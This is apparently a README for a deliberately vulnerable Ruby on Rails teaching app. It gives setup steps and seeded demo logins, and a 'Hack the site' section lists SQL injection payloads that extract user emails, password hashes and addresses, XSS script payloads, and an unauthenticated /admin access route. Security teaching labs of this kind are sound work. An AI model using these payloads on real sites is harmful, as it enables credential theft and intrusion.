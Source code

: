 # Project Title

This is my Ruby On Rails Project This is the insecure code 

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Downloads

The things you need before installing the software.

#### For Windows 
* Ruby Installer: https://rubyinstaller.org/ (The version i was using is 3.1.2)
* SQLite: https://www.sqlite.org/index.html (The version i was using is3.39.4)
#### For Mac and others)
please follow this guide: https://www.ruby-lang.org/en/downloads/

### Installation
When ruby is installed run these commands to run the application

Open up command terminal (cmd)
check the version of ruby and ruby gem by 

```
$gem -v
```
```
$ruby -v
```

Next install rails by using 

```
$gem install rails
```
When this is complete check the version of rails (im using rails 7.0.4.3)
gem install rails

```
$rails -v 
```
## Usage

To run the application simply download the github secure project and insecure project. 
Once downloaded redirect to the directory the project is saved in 
make sure you are in the application directory, Once in the directory run bundle install to install all the gems needed

```
$ bundle install
```

There will be some pending migrations that will need to be migrated before running 
```
$ rails db:migrate
```
Once installed you can choose to run it on a localhost or through an ip
### Run localhost 

To run it on a localhost just type in the terminal 
```
$ rails server
```
This will start the Rails server, and you can access your application by opening a web browser and going to http://localhost:3000

### Run through local ipv4
Find your Ipv4 address
```
$ ip config
```
This will run it on port 3000 

```
$ rails s -b 0.0.0.0
```
In order to connect to the site use your ipv4 address and the port
Ip will look like 192.111.1.111:3000 This is a sample and fake ipv4 address and will be different for you 
You can access your application by opening a web browser and typing your ip along with the port

### Branches

* Secure
* Insecure

## Additional Documentation and Acknowledgments
if there are any issues with installations please follow the ruby on rails guide documentation
* https://www.ruby-lang.org/en/downloads/
* https://guides.rubyonrails.org/getting_started.html

## Seed the application 
Run this to seed the application with users 
```
$ rake seed_data
```
This will give you admin users and normal users 

### Users details  
These are the user details that have been generated There are more if you want to check the rake file found in lib/tasks/seed_data.rake
#### Admin Users
username: jenny@gmail.com
password: pancake

#### Users
username: kev@gmail.com
password: coffeecake

username: slvy@gmail.com
password: cake

# Hack the site 

## Info About Insecure and Secure App
Here I intentionally made the button look out dated to show a security flaws. This is the insecure site so it will look differnt than to the secure site where the layout and looks are being validated and are using proper buttons such as primary and secondary buttons. naming conventions have stayed the same to be able to compare between the code only difference is the body is called content on the insecure app while its called context on the secure one There are no authentication between sites like going to /admin on the url.

## SQL Inject the Search button using the commands!
This will display the email and password:
```
Cake') union select 1, email, encrypted_password, null, null, true from users --
```

This will display the email and address:
```
Cake') union select 1, email, address, null, null, true from users --
```
This will display the email, password and users that are Admin:
```
Cake') union select 1, email, encrypted_password, null, null, true from users where admin = true --
```
This will display private posts:
```
Cake' or 1=1)
```
## XSS the subscribe button in the Home page using the command!
This will inject an alert script:
```
<script>alert('XSS Attack')</script>
```
This will run a script to change the css properties (background color to red):
```
<script>function changeBackground(color) { document.body.style.background = color; } window.addEventListener("load",function() { changeBackground('red') });</script>
```
## Broken Access Control
Access the admin page by typing this at the end of the url
```
/admin
```
### sample Url
This is wht the url will look like when you type the /admin at the end of the url
```
192.111.1.111:3000/admin
```
```
http://localhost:3000/admin
```

